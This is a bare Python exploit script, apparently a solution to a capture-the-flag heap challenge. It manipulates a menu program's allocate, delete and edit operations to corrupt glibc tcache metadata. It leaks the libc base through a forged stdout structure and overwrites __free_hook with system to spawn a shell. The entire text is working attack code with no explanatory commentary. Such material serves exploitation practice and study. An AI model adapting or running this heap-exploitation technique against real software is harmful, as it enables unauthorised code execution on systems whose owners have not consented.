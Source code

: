 ```py
    Add('1')#1
    Add('2')#2
    Add('3')#3
    Add('4')#4
    Delete(2)
    Delete(1)
    Delete(1)

    Add('\x60')#1
    Add('\x00')#2 == initial 1
    Add(p64(0)+p64(0xf1))#6
    for i in range(8):
        Delete(0)
    Delete(3)
    Delete(1)
    Delete(1)
    Edit(2,'\xb0')
    #
    Add('0')#0
    Add(p64(0)+p64(0x41))#1
    Delete(0)
    Add('0')#0
    Add('3')#0

    Edit(1,p64(0)+p64(0x51))
    Edit(2,'\x60\x07\xdd')
    #

    Delete(4)
    Delete(4)
    Delete(0)
    Delete(0)
    Add('\xc0')#0
    Add('a')#6
    Add('a')#7

    Add(p64(0xfbad1800)+p64(0)*3+'\x00')#8
    #
    p.recvn(0x20)
    libc_base = u64(p.recv(8)) - (0x7ffff7dcf780-0x7ffff79e4000)
    libc.address = libc_base
    log.success("libc base => " + hex(libc_base))
    #get shell

    Delete(0)
    Edit(4,p64(libc.sym['__free_hook']))
    Add('/bin/sh\x00')
    Add(p64(libc.sym['system']))#8
    Delete(0)
    p.interactive()

exp()

```
